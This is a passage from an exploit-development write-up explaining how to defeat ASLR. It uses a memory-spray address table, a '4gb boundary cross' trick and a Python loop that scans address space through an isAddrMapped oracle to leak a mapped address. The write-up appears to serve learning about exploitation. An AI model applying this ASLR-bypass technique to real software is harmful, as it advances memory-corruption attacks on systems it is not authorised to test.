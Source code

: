 We can try to apply the [boundary cross trick](#Boundary-cross-trick).

| mem | 4gb boundary cross?
| - |-
| 7fe2dc000000 | No
| 7fe2e0000000 | No
| 7fe2e4000000 | No
| 7fe2e8000000 | No
| 7fe2ec000000 | No
| 7fe2f0000000 | No
| 7fe2f4000000 | No
| 7fe2f8000000 | No
| 7fe2fc000000 | No
| 7fe300000000 | Yes
| 7fe304000000 | Yes
| 7fe308000000 | Yes
By exploiting the change from 7fe2.. to 7fe3.. we can scan memory with a step of 0x100000000 = 4gb memory.

## 4.5 Finally defeating ASLR 

Given that step size, we can scan `start=0x7f0000000000` to `end=0x800000000000` with only `end - start / size` = 256 queries.

```py
start = 0x7f0000000000
end = 0x800000000000 
step = 0x100000000 # 4gb

isMapped = False
j = 0xff
while isMapped == False:
    leakAddr = start + j*step
    isMapped = (isAddrMapped(leakAddr, 1000 + j))
    j -= 1
```

At this point, we have `leakAddr` which is a mapped address like this: `0x7fXX00000000`, in [this](#memory-spray-result) case, `leakAddr = 0x7fe300000000`. 

Now, if we want to follow the saelo technique, we should do a binary search of the range 0x7fXX00000000 - 0x7fXXffffffff, in order to find lower and upper bounds, the problem is that there are some holes in that range, so the binary search fails a lot of times.

